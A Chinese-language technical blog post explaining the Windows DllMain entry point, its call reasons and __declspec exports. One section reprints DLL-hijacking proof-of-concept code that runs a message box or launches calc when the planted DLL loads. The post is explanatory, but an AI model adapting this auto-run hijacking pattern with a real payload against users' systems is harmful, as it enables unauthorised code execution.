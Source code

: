 ```yaml
---
title: DllMain详解
layout: post
date: '2019-05-09'
categories: Windows
permalink: "/archivers/2019-05-09/1"
description: 深入了解一下DllMain
---
```


## 0x00 DllMain

对于动态链接库，DllMain是一个**可选的**入口函数。

### 程序调用DLL中的导出函数的流程

- 程序调用Windows API `LoadLibrary` 
- 操作系统寻找LoadLibrary所加载的DLL文件
- 操作系统将DLL文件加载至目标程序进程的内存空间
- 程序自动调用`DllMain`函数
- 程序调用DLL中导出函数

**如果DLL被多次`LoadLibrary`，那么`DllMain`只执行一次，引用基数+1。**

### DllMain的原型

```c++
BOOL WINAPI DllMain(
  _In_ HINSTANCE hinstDLL, // 指向自身的句柄
  _In_ DWORD fdwReason, // 调用原因
  _In_ LPVOID lpvReserved // 隐式加载和显式加载
);
```

## 0x01 DllMain调用原因

其中`fdwReason`用来表示Dll被调用的状态，一共分为四种：

- DLL_PROCESS_ATTACH 被进程加载
- DLL_PROCESS_DETACH 被进程释放
- DLL_THREAD_ATTACH  被线程加载
- DLL_THREAD_DETACH  被线程释放

在DllMain中通常为了捕获DLL被调用的方式来进行某些动作：

```c++
BOOL APIENTRY DllMain( HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
　switch (ul_reason_for_call)
　{
　　case DLL_PROCESS_ATTACH:
　　　printf("\nprocess attach of dll");
　　　break;
　　case DLL_THREAD_ATTACH:
　　　printf("\nthread attach of dll");
　　　break;
　　case DLL_THREAD_DETACH:
　　　printf("\nthread detach of dll");
　　　break;
　　case DLL_PROCESS_DETACH:
　　　printf("\nprocess detach of dll");
　　　break;
　}
　return TRUE;
}
```

## 0x02 那些用于测试DLL劫持的DllMain POC

- https://cxsecurity.com/issue/WLB-2018090232
- https://cxsecurity.com/issue/WLB-2015010114

在测试很多DLL劫持的漏洞时，都喜欢用DllMain，是因为DllMain被进程加载或者释放都会自动调用运行。

```c++
#include <windows.h>

BOOL WINAPI DllMain (
            HANDLE    hinstDLL,
            DWORD     fdwReason,
            LPVOID    lpvReserved)
{
    switch (fdwReason)
  {
  case DLL_PROCESS_ATTACH:
    owned();
  case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
  break;
  }
  return TRUE;
}

int owned() {
  MessageBox(0, "iExplorer DLL Hijacked\Hadji Samir", "POC", MB_OK);
}

#include <windows.h>
#define DLLIMPORT __declspec (dllexport)
 
DLLIMPORT void HrCreateConverter() { evil(); }
 
int evil()
{
  WinExec("calc", 0);
  exit(0);
  return 0;
}

```

## 0x03 __declspec


`__declspec`是Microsoft VC中专用的关键字，它配合着一些属性可以对标准C/C++进行扩充。`__declspec`关键字应该出现在声明的前面。

`__declspec(dllexport)`用于Windows中的动态库中，声明导出函数、类、对象等供外面调用，省略给出.def文件。即将函数、类等声明为导出函数，供其它程序调用，作为动态库的对外接口函数、类等。


`__declspec(dllimport)`用于Windows中，从别的动态库中声明导入函数、类、对象等供本动态库或exe文件使用。当你需要使用DLL中的函数时，往往不需要显示地导入函数，编译器可自动完成。


